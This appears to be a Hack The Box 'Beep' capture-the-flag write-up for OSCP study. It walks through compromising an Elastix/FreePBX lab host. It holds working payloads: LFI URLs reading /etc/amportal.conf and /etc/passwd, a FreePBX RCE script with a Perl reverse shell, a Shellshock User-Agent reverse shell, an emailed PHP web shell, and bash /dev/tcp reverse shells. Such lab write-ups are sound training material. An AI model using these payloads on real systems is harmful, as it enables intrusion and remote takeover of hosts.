

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/beep-easy
---

# ✅ Beep (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** LFI, RCE, ShellShock, Weak Password Policy

**System Vulnerable:** 10.10.10.7

**Vulnerability Explanation:** The application is contained multiple vulnerabilities. The vulnerbility LFI which we could read sensitive file `/etc/amportal.conf` that contained username and password for login with ssh service.

**Privilege Escalation Vulnerability:** Misconfigure on SUDO which we could run sudo on chmod to change permission of /bin/bash file without password.

**Vulnerability Fix:** Upgrade version of application and implement strong password policy

**Severity:** Critical

**Step to Compromise the Host:**&#x20;

## Reconnaissance

There are 16 TCP Ports open on the remote machine:

* **Port 22:** OpenSSH 4.3 (protocol 2.0)
* **Port 25:** Postfix smtpd
* **Port 80:** Apache httpd 2.2.3
* **Port 110:** Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5\_6.4
* **Port 111:** Rpcbind
* **Port 143:** Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5\_6.4
* **Port 443:** HTTPS
* **Port 878:** Rpcbind
* **Port 993:** Cyrus imapd
* **Port 995:** Cyrus pop3d
* **Port 3306:** MySQL (unauthorized)
* **Port 4190:** Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5\_6.4 (included w/cyrus imap)
* **Port 4445:** upnotifyp
* **Port 4559:** HylaFAX 4.3.10
* **Port 5083:** Asterisk Call Manager 1.1
* **Port 10000:** MiniServ 1.570 (Webmin httpd)

```
└─$ nmap -p- -sC -sV -T4 10.10.10.7 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-29 00:22 EDT
Nmap scan report for 10.10.10.7
Host is up (0.062s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: PIPELINING STLS TOP LOGIN-DELAY(0) IMPLEMENTATION(Cyrus POP3 server v2) UIDL RESP-CODES APOP AUTH-RESP-CODE USER EXPIRE(NEVER)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: X-NETSCAPE LITERAL+ QUOTA Completed IMAP4 MULTIAPPEND CONDSTORE ANNOTATEMORE IDLE SORT=MODSEQ OK LISTEXT NO LIST-SUBSCRIBED ACL MAILBOX-REFERRALS CHILDREN URLAUTHA0001 THREAD=REFERENCES THREAD=ORDEREDSUBJECT STARTTLS ATOMIC UIDPLUS SORT BINARY IMAP4rev1 CATENATE ID UNSELECT RIGHTS=kxte NAMESPACE RENAME
443/tcp   open  ssl/https?
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2021-10-29T04:26:15+00:00; -2s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: -2s

```

## Enumeration

### **Port 80 / 443 Web Server**

By browsing on port 80, it will redirect to port 443 on web browser as login web page of [elastix](https://www.elastix.org/). Viewing the source code but nothing is interesting.

.png>)

Let start enumerating and finding if there is any hidden subdirectory with **gobuster**.&#x20;

```
└─$ gobuster dir -u https://10.10.10.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -k
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.7
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/30 03:30:16 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 310] [--> https://10.10.10.7/images/]
/help                 (Status: 301) [Size: 308] [--> https://10.10.10.7/help/]  
/themes               (Status: 301) [Size: 310] [--> https://10.10.10.7/themes/]
/modules              (Status: 301) [Size: 311] [--> https://10.10.10.7/modules/]
/mail                 (Status: 301) [Size: 308] [--> https://10.10.10.7/mail/]   
/admin                (Status: 301) [Size: 309] [--> https://10.10.10.7/admin/]  
/static               (Status: 301) [Size: 310] [--> https://10.10.10.7/static/] 
/lang                 (Status: 301) [Size: 308] [--> https://10.10.10.7/lang/]   
/var                  (Status: 301) [Size: 307] [--> https://10.10.10.7/var/]    
/panel                (Status: 301) [Size: 309] [--> https://10.10.10.7/panel/]  
/libs                 (Status: 301) [Size: 308] [--> https://10.10.10.7/libs/]   
/recordings           (Status: 301) [Size: 314] [--> https://10.10.10.7/recordings/]
/configs              (Status: 301) [Size: 311] [--> https://10.10.10.7/configs/]   
/vtigercrm            (Status: 301) [Size: 313] [--> https://10.10.10.7/vtigercrm/] 
===============================================================
2021/10/30 04:00:23 Finished
===============================================================
```

Let checking on /admin directory. Try guessing the username and password as admin/admin but it doesn't work but it returns back with the application version **(FreePBX 2.8.1.4)**

.png>)

.png>)

By searching for public exploit of elastix, we found some vulnerability which we could try it.

.png>)

### **Port 10000 MiniServ 1.570 (Webmin httpd)**

Checking on port 10000, we found that it is a login webpage of **webmin** application and try guessing with username and password as admin/admin and root/root it doesn't work.

.png>)

Searching for public exploit of webmin application and it returns a lot of vulnerabilities.

.png>)

## Exploitation #1 (LFI)

We have seen elastix is vulnerable to FLI. Let copy and check the exploit script. It provides the path  for LFI vulnerability.

.png>)

.png>)

```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

.png>)

It return the result of file and contains some username and password but it's difficult to view. By typing `Ctrl+U`, it's provide a good view.

.png>)

```
# This is the default admin name used to allow an administrator to login to ARI bypassing all security.
# Change this to whatever you want, don't forget to change the ARI_ADMIN_PASSWORD as well
ARI_ADMIN_USERNAME=admin

# This is the default admin password to allow an administrator to login to ARI bypassing all security.
# Change this to a secure password.
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```

**Fixing SSH Error:**&#x20;

```
└─$ ssh admin@10.10.10.7
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1

└─$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 admin@10.10.10.7
```

By try login ssh with credentials `admin/jEhdIekWmdjE` but it doesn't work. Let try to enumerate more deeper on LFI whether we can read the user file on remote machine or not.

```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
```

.png>)

As we got a lot of users on the remote machine. Let copy all the text and save it on the machine. Let extract out nologin user by open file with vim and type `Esc + :g/nologin/d`

.png>)

We got root user on machine rather than admin. Let try login with **`root/jEhdIekWmdjE`** and we now successfully login to machine with root permission.

.png>)

## Exploitation #2 (RCE)

It seems like the version of **FreePBX 2.8.1.4** is vulnerable to remote code execution. Let copy exploit code and viewing the exploit code.

.png>)

By viewing the code, there are some parts we need to change configuration:&#x20;

* Replacing rhost and lhost on the script
* Finding the right extension
* Fixing SSL error

```
import urllib
rhost="172.16.254.72"     // change this
lhost="172.16.254.223"    //change this
lport=443    
extension="1000"          //change this

# Before Decode
url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

# After Decode
url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n
Application: system
Data: perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"'+str(lhost)+':'+str(lport)+'");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

```

**Finding the right extension lines.**

By default extension it doesn't work. We need to find out the right extension. We need to use [SIPVicious](https://www.kali.org/tools/sipvicious/) and **svwar** is the tool used to identified working extension lines on PBX.

```
svwar -m INVITE -e100-300 10.10.10.7

-m to specify request method (default REGISTER)
-e to specify extension ranges 
```

.png>)

### **Fix SSL Error.**

To exploit this successful, we need to changing the exploit code to fix ssl error,

```
python 18650.py
IOError: [Errno socket error] [SSL: UNSUPPORTED_PROTOCOL] unsupported protocol (_ssl.c:727)
```

&#x20;the below is the right one:

```
import urllib
import ssl

rhost="10.10.10.7"
lhost="10.10.14.31"
lport=443
extension="233"

ssl._create_default_https_context = ssl._create_unverified_context

# Reverse Shell
url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url) 
```

```
import urllib
import ssl

rhost="10.10.10.7"
lhost="10.10.14.31"
lport=443
extension="233"

# Reverse Shell
url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

urllib.urlopen(url, context=ctx)
```

**Exploitation**: we need to run netcat listener on port 443 and execute exploit python script.

```
nc -lvp 443
```

```
python 18650.py
```

.png>)

We found python script install on machine, to improve our shell script and get fully interactive shell (auto tab):

```
python -c 'import pty;pty.spawn("bash")'
ctrl-z
stty raw -echo;fg
export TERM=xterm
```

.png>)

## Privilege Escalation

First thing first, I always run sudo -l once I got onto the machine. We found there are a lots of misconfiguration on the machine.

.png>)

### **SUID Nmap**

We can run nmap as root permission. We found version on nmap is vulnerable which we could perform privilege escalation.

.png>)

### **SUID Chmod**

We can run **chmod** without password. **chmod** is used to set the permission on file. We can set SUID to the `/bin/bash` file.

.png>)

## Exploitation #3 (Webmin)

**Port 10000 MiniServ 1.570 (Webmin httpd)**

We have have login webpage of webmin. Previously, we got credentials **root/jEhdIekWmdjE**. Let try login with this credentials, we successfully login.

.png>)

.png>)

Under system tab, we saw option **Scheduled Commands** which we could scheduled any command run as root. Let&#x20;

.png>)

.png>)

Let stat netcat listener on port 443 and waiting for command to run.

```
sudo nc -nlvp 443 
```

.png>)

## Exploitation #4 (Shellsock)

**Port 10000 MiniServ 1.570 (Webmin httpd)**

In case, we don't have any valid credentials to login. For this application is vulnerable to [shellshock](https://en.wikipedia.org/wiki/Shellshock_\(software_bug\)).

First, we need to intercept the request traffic in burp, then we replace the user agent with our reverse shell payload:

```
User-Agent: () { :;}; bash -i >& /dev/tcp/10.10.14.31/4444 0>&1
```

.png>)

Next, let start the netcat listener on 4444 and then send the request with our reverse shell.

.png>)

## Exploitation #5 (RCE-SMTP)

Previously, we have seen that machine is open port 25. Let connect via telnet to enumerate to find valid user.&#x20;

.png>)

We can send email via smtp protocol to **asteristk@localhost** with reverse shell payload.

```
mail from: test@test.com
250 2.1.0 Ok
rcpt to: asterisk@localhost
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
Subject: You have been pwned
<?php echo system($_REQUEST['cmd']); ?>

.    # . to end the mail
250 2.0.0 Ok: queued as 8BAFDD92FD
```

As the application is vulnerable to LFI and we can check the directory **/very/mail/asterisk** for mail.

```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action
```

To easy reading the content, let intercept request traffic with burp.&#x20;

.png>)

We can execute command `whoami` to check if RCE is working or not.  The result returning back the username asterisk which mean that it's working.

.png>)

Let execute bash reverse shell with our netcat listener on port 4444. By simple execute the bash script on the request it doesn't work. It requires to perform URL encoded (Ctrl-U)

```
# Doesn't work
action&cmd=bash -i >& /dev/tcp/10.10.14.31/4444 0>&1

# Working
action&cmd=bash+-i+>%26+/dev/tcp/10.10.14.31/4444+0>%261
```

.png>)

.png>)
